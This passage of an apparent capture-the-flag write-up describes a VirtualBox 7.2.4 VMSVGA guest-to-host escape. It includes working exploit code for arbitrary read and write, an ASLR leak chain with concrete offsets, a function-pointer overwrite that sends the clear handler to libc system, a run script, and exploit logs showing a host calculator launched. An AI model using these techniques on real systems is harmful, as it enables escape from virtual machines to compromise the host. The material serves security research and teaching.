    write_transfer_buffer(ctx, data, size);

    mob_set_pvhost(ctx, ctx->corrupted_mob, host_addr);
    mob_set_cbtotal(ctx, ctx->corrupted_mob, size);

    dx_update_cotable(ctx, ctx->cotable_id);

    return 0;
}
```

Every risky write was verified by reading it back.

```c
static int write_checked(ctx_t *ctx, uint64_t addr,
                         const void *contents, size_t size,
                         const char *label)
{
    uint8_t verify[MAX_VERIFY_SIZE];

    arbitrary_write(ctx, addr, contents, size);
    arbitrary_read(ctx, addr, verify, size);

    return memcmp(verify, contents, size) == 0 ? 0 : -1;
}
```

## 10. Leaking the State Structure

Once AAR/AAW was ready, the next problem was ASLR. The starting point was `VMSVGAMOB.nodeLRU`.

```text
corrupted_mob->nodeLRU
    -> MOBLRUList anchor
    -> PVMSVGAR3STATE
    -> pFuncsVGPU9
    -> pfnCommandClear
    -> VBoxDD.so base
    -> libc base
```

The offsets used for the remote build were:

```text
MOBLRUList anchor      = candidate anchor
PVMSVGAR3STATE         = anchor - 0x12d0
pFuncsVGPU9 field      = PVMSVGAR3STATE + 0x12f0
pfnCommandClear slot   = pFuncsVGPU9 + 0x60
```

I did not choose a candidate pointer by range alone. I checked that `pfnCommandClear` was a code pointer inside `VBoxDD.so`, then walked down page by page until I found the ELF magic.

```c
uint64_t clear_pfn = aar64(ctx, pfuncs_vgpu9 + OFF_COMMAND_CLEAR);

if (!looks_like_code_ptr(clear_pfn))
    reject_candidate();

uint64_t vboxdd_base = clear_pfn & ~0xfffULL;

while (vboxdd_base > clear_pfn - MAX_MODULE_SCAN) {
    uint32_t magic = aar32(ctx, vboxdd_base);

    if (magic == 0x464c457f)   // "\x7fELF"
        break;

    vboxdd_base -= 0x1000;
}
```

The remote run logged this:

```text
[+] selected groom candidate 0 via direct LRU anchor
[.] MOBLRUList anchor addr: 0x71b32c1ee7a0
[.] PVMSVGAR3STATE addr: 0x71b32c1ed4d0
[+] pFuncsVGPU9 field: 0x71b32c1ee7c0
[+] pFuncsVGPU9 table: 0x71b32c2bf030
[+] command clear function pointer: 0x71b33170e840
[+] vboxdd base: 0x71b331600000 (stub-ubuntu)
```

After getting the `VBoxDD.so` base, I read `write@GOT` and calculated the libc base. This assumes the challenge image uses a fixed libc build and that the GOT entry already holds the resolved `write` address.

```text
[+] pDevIns: 0x71b37002e000, pThisCC: 0x71b37002e180
[+] libc write: 0x71b386b1c590, libc base: 0x71b386a00000, system: 0x71b386a58750
```

## 11. Code Execution

The final step was hijacking `pFuncsVGPU9->pfnCommandClear`. I did not need ROP.

The clear handler call site in VirtualBox 7.2.4 is roughly:

```c
return pSvgaR3State->pFuncsVGPU9->pfnCommandClear(
    pThisCC, cid, clearFlag, color, depth, stencil, cRects, pRect);
```

On x86_64 SysV ABI, the first argument is passed in `RDI`. If `pfnCommandClear` is replaced with `system`, the call effectively becomes:

```text
system(pThisCC)
```

So I wrote the command string into `pThisCC`, temporarily replaced the handler pointer, and submitted `SVGA_3D_CMD_CLEAR`.

```c
uint64_t original = aar64(ctx, command_clear_pfn_addr);

write_checked(ctx, command_clear_pfn_addr, &system_addr, 8,
              "command clear handler");

write_checked(ctx, pthiscc, command, strlen(command) + 1,
              "command string");

submit_clear_command(ctx);

write_checked(ctx, command_clear_pfn_addr, &original, 8,
              "command clear restore");
```

The state changes like this:

```text
before  : pfnCommandClear -> original VBoxDD.so handler
after   : pfnCommandClear -> libc system
argument: pThisCC -> "/usr/bin/gnome-calculator&"
trigger : SVGA_3D_CMD_CLEAR
restore : pfnCommandClear -> original handler
```

I did not restore the bytes at `pThisCC`. The goal was a one-time launch of the host calculator. I did restore the handler pointer immediately, and verified that write by reading it back.

## 12. Stability

For the remote environment, I kept these rules:

- run the final exploit only once on a fresh snapshot
- do not run the final exploit in the same boot after exploration runs
- load the helper with `use_commit_flush=1`
- do not trust marker discovery alone; verify COTable round-trip and OOB write-back
- use early markers instead of a wide scan
- verify handler overwrite, command string write, and restore by reading them back

The final preset values were:

```text
GROOM_SCAN_LIMIT=0x100
GROOM_COLLECT_CANDIDATES=2
GROOM_VALIDATE_COTABLE=1
VALIDATE_COTABLE_IO=1
```

I uploaded three files:

```text
exploit
vgapwn-standalone-6.17.0-23-generic.ko
run_final.sh
```

`run_final.sh` leaves a marker file so the final exploit is not run twice on the same snapshot.

```bash
if [ -e .easyvbox_attempted ]; then
    echo "final attempt marker already exists; ask for a snapshot restore before retrying."
    exit 1
fi
touch .easyvbox_attempted

PWN_REMOTE_PRESET=1 PWN_CMD="${PWN_CMD:-/usr/bin/gnome-calculator&}" ./exploit
```

## 13. Result

The final run was done on a fresh snapshot.

```bash
PWN_REMOTE_PRESET=1 PWN_CMD="/usr/bin/gnome-calculator&" ./exploit
```

Candidate discovery and primitive validation succeeded.

```text
[+] candidate 0: surface 6118 marker 50, MOB offset 20, key=24856
[+] candidate 0 passed early COTable validation
[+] candidate 1: surface 6120 marker 50, MOB offset 20, key=24864
[+] candidate 1 passed early COTable validation
[+] collected 2 groom candidate(s), last surface 6120

[+] candidate 0 COTable round-trip verified
[+] candidate 0 OOB write-back verified
[+] selected groom candidate 0 via direct LRU anchor
[.] Primitives ready for exploitation
```

The handler overwrite, command string write, and restore were also verified by reading them back.

```text
[+] verified command clear handler write
[+] verified command string write
[.] Triggering system command...
[.] Restoring command clear handler
[+] verified command clear restore write
```

After the log reached this point, a calculator window appeared on the host screen.


:::
